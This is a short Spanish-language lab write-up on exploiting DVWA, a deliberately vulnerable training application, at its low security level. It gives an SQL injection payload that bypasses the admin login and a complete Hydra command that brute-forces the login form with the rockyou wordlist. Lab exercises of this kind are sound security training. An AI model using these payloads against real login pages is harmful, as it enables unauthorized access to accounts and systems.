

# Explotación Nivel Bajo DVWA

## 1. SQL Injection (Bypass Login)

**Payload:** `admin' OR '1'='1' --`

**Ejecución:** Ingresar en campo `username`, dejar `password` vacío.

**Resultado:** Acceso como `admin` sin contraseña.



## 2. Fuerza Bruta

### 2.1. Hydra

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=low:F=Username and/or password incorrect."
```


Nota: Reemplazar <IP_SERVIDOR> y <TU_SESION>.

Resultado: Contraseña de admin.
